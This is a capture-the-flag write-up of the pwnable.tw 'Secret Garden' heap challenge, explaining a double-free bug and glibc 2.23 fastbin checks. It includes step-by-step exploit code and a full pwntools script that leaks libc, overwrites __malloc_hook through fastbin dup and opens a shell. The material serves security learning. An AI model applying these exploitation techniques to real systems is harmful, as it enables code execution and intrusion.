








# Introduction
Let’s solve the heap exploitation challenge, Secret Garden [350 pts] (x86_64, glibc 2.23). In summary:
- Free a large chunk into the unsorted bin.
- The
fdfield of the freed chunk in the unsorted bin contains a libc address whose offset within libc is a fixed value. - Visit the garden and leak the libc base to stdout.
- Overwrite
__malloc_hookwith a one gadget using fastbin dup. - Trigger our
__malloc_hookviamalloc_printerr().
# Analysis
Sounds easy enough, eh? This challenge is perfect for someone who’s new to heap exploitation, as it allows us to learn how fastbin dup works, and overall it’s not too complicated. Okay, enough talk, let’s get started. Running the binary shows the following output:
☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆
☆ Secret Garden ☆
☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆ ☆
1 . Raise a flower
2 . Visit the garden
3 . Remove a flower from the garden
4 . Clean the garden
5 . Leave the garden
Your choice :
Only the first three options are required for exploitation:
- Raise a flower:
- malloc() twice.
- The first malloc(0x28) allocates a flower struct.
- The second malloc() allows us to specify the size.
- Then it calls read() to let us edit the chunk’s user data.
- Visit the garden:
- Print all the flowers’s data.
- Remove a flower from the garden (by index):
- Clear the flower struct’s first QWORD (i.e.
fdfield) - free() the flower but doesn’t set it to NULL.
- Clear the flower struct’s first QWORD (i.e.
# Preparation
I suggest using pwndocker, since it allows you to switch between different versions of glibc in a breeze, and all the commonly-used exploitation tools are already provided in the container.
- Patching ELF
# patchelf --set-interpreter /glibc/2.23/64/lib/ld-2.23.so ./heap_paradise
# ldd ./secretgarden
linux-vdso.so.1 (0x00007fffcb2f7000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f0f13c8b000)
/glibc/2.23/64/lib/ld-2.23.so => /lib64/ld-linux-x86-64.so.2 (0x00007f0f1408b000)
- To run
secretgardenlocally with glibc 2.23 (stripped):
# LD_PRELOAD=./libc.so.6 ./secretgarden
- To run
secretgardenlocally with glibc 2.23 (non-stripped):
# ./secretgarden
Note:
The non-stripped version of glibc should only be used during exploit script development. You’ll finally need to switch over to the stripped version which comes with the challenge, because they have different offsets for symbols.
# Vulnerability
The third option, “remove a flower from the garden”, contains an obvious UAF vulnerability, as it doesn’t set the freed pointer to NULL.
_DWORD *ptrToFdField; // rax | |
unsigned int index; // [rsp+4h] [rbp-14h] BYREF | |
if (index <= 99 && (ptrToFdField = (_DWORD *)flowers[index]) != 0LL) { | |
*ptrToFdField = 0; | |
free(*(void **)(flowers[index] + 8LL)); | |
return puts("Successful"); | |
} |
To reach the crashing state of this program, we only need to raise a flower and remove it twice.
Your choice : 3
Which flower do you want to remove from the garden:0
*** Error in `./secretgarden': double free or corruption (fasttop): 0x0000558b995ae450 ***
Aborted (core dumped)
With this vulnerability, we can perform fastbin dup by double freeing a flower. Unfortunately, as all the protections (except FORTIFY) are enabled in this challenge, GOT hijacking is not an easy option. We’ll need to find a way to leak libc base and overwrite either __malloc_hook or __free_hook with the address of an one gadget.
# checksec --file ./secretgarden
[*] '/ctf/work/pwnable.tw/secret-garden/secretgarden'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
FORTIFY: Enabled
# Exploitation
Before we begin, let’s pay attention to the first option, “raise a flower”. Remember that it calls malloc() twice, so if we write chall.create(0x420) it will:
- malloc(0x28), which returns a 0x30-byte chunk (including the header)
- malloc(0x420), which returns a 0x430-byte chunk (including the header)
# Leaking libc base
We can allocate and free a large chunk (0x420 bytes) into the unsorted bin, and print its fd field to stdout.
chall.create(0x420)
chall.remove(0)
chall.visit()

Wait, the freed chunk doesn’t go into the unsorted bin! That’s because the large chunk we’ve allocated is next to the top chunk, and when it is freed, it will be merged into the top chunk. To workaround this, simply allocate another small chunk with whatever size other than 0x28.
chall.create(0x420)
chall.create(0x38) # new
chall.remove(0)
chall.visit()

Good. The large chunk now goes into the unsorted bin. To print it via the second option, “visit the garden”, we need to allocate it again and make sure we don’t overwrite the fd field.
chall.create(0x420)
chall.create(0x38)
chall.remove(0)
chall.create(0x420, b'') # new
chall.visit()

Unfortunately, if we choose option 1, it won’t return us the exact same 0x430-byte chunk from before. As we can see, option 1 calls malloc() twice, 0x28 and 0x420 respectively. So when the program calls malloc(0x28) , glibc splits our 0x430-byte free chunk in the unsorted bin into two halves: (1) a 0x30-byte chunk, and (2) a 0x400-byte chunk. This former is returned to the user, while the latter is put into a large bin.
To workaround this, we need to place a 0x30-byte chunk in a fastbin, so that glibc can return that chunk instead of splitting from our 0x430-byte chunk. As shown below, the fd field of the 0x430-byte chunk is successfully leaked to stdout.
chall.create(0x420)
chall.create(0x38)
chall.create(0x28) # new
chall.remove(2) # new
chall.remove(0)
chall.create(0x420, b'')
chall.visit()
[*] leaked: 0x7fdad280db0a
[*] leaked libc_base: 0x7fdad244a000

# Overwriting __malloc_hook@libc via fastbin dup
Next, we can use the fastbin dup technique to achieve arbitrary write. We need to either:
- overwrite
__malloc_hook@libcand triggermalloc(), or - overwrite
__free_hook@libcand triggerfree()
Let’s try to bypass the infamous “double free or corruption (fasttop)” error with the ABA pattern [1].
chall.create(0x68)
chall.create(0x68)
chall.remove(4)
chall.remove(5)
chall.remove(4)

Good. We now have two overlapping (same) chunks in the same fastbin. Now we can overwrite the fd field of this chunk.
chall.create(0x68)
chall.create(0x68)
chall.remove(4)
chall.remove(5)
chall.remove(4)
chall.create(0x68, p64(libc_base + libc.sym['__free_hook']))
chall.create(0x68)
chall.create(0x68)
chall.create(0x68, p64(libc_base + one_gadget))

Okay, here’s another restriction we need to bypass. In glibc, malloc() will refuse to return a freed chunk from a fastbin if that chunk’s size field is incorrect [2].
Error in `/ctf/work/pwnable.tw/secret-garden/secretgarden': malloc(): memory corruption (fast): 0x00007efdb9063b20 ***
To bypass this, we need to rethink where we’re trying to write data into. The answer is __malloc_hook or __free_hook , right? Let’s take a look at that memory region.


All the bytes near __free_hook are all NULL bytes, so it’s not easy to be overwritten with fastbin dup. However, there’s a sequence of bytes “7f 00 00 00 00 00 00 00” before __malloc_hook . If we use these bytes as the free chunk’s size field, then we’ll get a 0x70-byte free chunk, and this is enough for us to overwrite __malloc_hook .
chall.create(0x68)
chall.create(0x68)
chall.remove(4)
chall.remove(5)
chall.remove(4)
chall.create(0x68, p64(libc_base + libc.sym['__malloc_hook'] - 35))
chall.create(0x68)
chall.create(0x68)
chall.create(0x68, 19 * b'A' + p64(libc_base + one_gadget))
chall.create(0x68) # trigger __malloc_hook
# Triggering our __malloc_hook
The last thing that will probably annoy you is that the constraints of all four one gadgets are unsatisfiable when __malloc_hook is triggered via option 1, “raise a flower”.

Fortunately, there’s another way to trigger __malloc_hook : via malloc_printerr() . This function is used to print error message when malloc() and free() fails, and most importantly, it calls malloc() . Now back to our question, the easiest way to invoke malloc_printerr() is to create a “double free or corruption (fasttop)” error [1] on purpose.
chall.create(0x68)
chall.create(0x68)
chall.remove(4)
chall.remove(5)
chall.remove(4)
chall.create(0x68, p64(libc_base + libc.sym['__malloc_hook'] - 35))
chall.create(0x68)
chall.create(0x68)
# Prepare a chunk for (fasttop) error
chall.create(0x48)
# Overwrite __malloc_hook.
chall.create(0x68, 19 * b'A' + p64(libc_base + one_gadget))
# Trigger "double free or corruption (fasttop)".
chall.remove(9)
chall.remove(9)
# Full Exploit Script
#!/usr/bin/env python3 | |
# -*- encoding: utf-8 -*- | |
from pwn import * | |
context.update(arch = 'amd64', os = 'linux', log_level = 'debug') | |
elf = ELF('./secretgarden', checksec = False) | |
libc = ELF('./libc_64.so.6', checksec = False) | |
one_gadget = 0xef6c4 | |
A8 = 7 * b'A' | |
class Challenge: | |
def __init__(self, proc): | |
self.proc = proc | |
def create(self, len_name, name = A8, color = A8): | |
""" malloc(0x28), malloc(len_name) """ | |
self.proc.sendlineafter(b'choice : ', b'1') | |
self.proc.sendlineafter(b'name :', str(len_name).encode('utf-8')) | |
self.proc.sendlineafter(b'of flower :', name) | |
self.proc.sendlineafter(b'the flower :', color) | |
def visit(self): | |
self.proc.sendlineafter(b'choice : ', b'2') | |
def remove(self, index): | |
self.proc.sendlineafter(b'choice : ', b'3') | |
self.proc.sendlineafter(b'garden:', str(index).encode('utf-8')) | |
def cleanup(self): | |
self.proc.sendlineafter(b'choice : ', b'4') | |
def main(): | |
proc = remote('chall.pwnable.tw', 10203) | |
chall = Challenge(proc) | |
# Prepare a large chunk. | |
chall.create(0x420) | |
# Prevents the large chunk from being merged into the top chunk. | |
chall.create(0x38) | |
# Prevents the 0x430-byte chunk from being split. | |
chall.create(0x28) | |
chall.remove(2) | |
# Free the 0x430-byte chunk into unsorted bin. | |
chall.remove(0) | |
# Allocate the 0x430-byte chunk again so that visit() can print it. | |
chall.create(0x420, b'', b'A') | |
chall.visit() | |
proc.recvuntil(b'flower[3] :') | |
leaked = u64(proc.recv(6).ljust(8, b'\x00')) | |
offset = 0x7fb7dafc4b0a - 0x7fb7dac01000 | |
libc_base = leaked - offset | |
log.info('leaked libc_base: {}'.format(hex(libc_base))) | |
# Overwrite __malloc_hook with one gadget using fastbin dup. | |
chall.create(0x68) | |
chall.create(0x68) | |
chall.remove(4) | |
chall.remove(5) | |
chall.remove(4) | |
chall.create(0x68, p64(libc_base + libc.sym['__malloc_hook'] - 35)) | |
chall.create(0x68) | |
chall.create(0x68) | |
# Trigger __malloc_hook. | |
# It seems that raising a flower will cause the one gadgets to crash. | |
# An alternative way is to trigger __malloc_hook via malloc_printerr(). | |
# To do this, we can trigger a "double free or corruption (fasttop)". | |
chall.create(0x48) # prepare a chunk for (fasttop) error | |
chall.create(0x68, 19 * b'A' + p64(libc_base + one_gadget)) # overwrite __malloc_hook | |
chall.remove(9) | |
chall.remove(9) | |
proc.interactive() | |
if __name__ == '__main__': | |
main() |
# Fastbin-Related Error Handling
# Check 1: double free or corruption (fasttop)
In glibc 2.23, _int_free() will refuse to free the given pointer p when the first chunk in fastbin is p .
/* Check that the top of the bin is not the record we are going to add | |
(i.e., double free). */ | |
if (__builtin_expect(old == p, 0)) { | |
errstr = "double free or corruption (fasttop)"; | |
goto errout; | |
} |
Source: https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L3937
To bypass this restriction, a commonly used technique is:
- free(A)
- free(B)
- free(A)
# Check 2: malloc(): memory corruption (fast)
In glibc 2.23, _int_malloc() will refuse to return a freed chunk from a fastbin if that chunk has incorrect size.
if (__builtin_expect(fastbin_index(chunksize(victim)) != idx, 0)) { | |
errstr = "malloc(): memory corruption (fast)"; | |
errout: | |
malloc_printerr(check_action, errstr, chunk2mem (victim), av); | |
return NULL; | |
} |
Source: https://elixir.bootlin.com/glibc/glibc-2.23/source/malloc/malloc.c#L3385
To bypass this restriction, the freed chunk’s size field (right before fd ) must be set to the correct size. A commonly used technique is to:
- Look for the byte pattern
7f 00 00 00 00 00 00 00in memory, and use it as thesizefield. - Go back 8 bytes to obtain the base address of the chunk.
- Place this chunk into a fastbin, either by free()ing it or fastbin dup.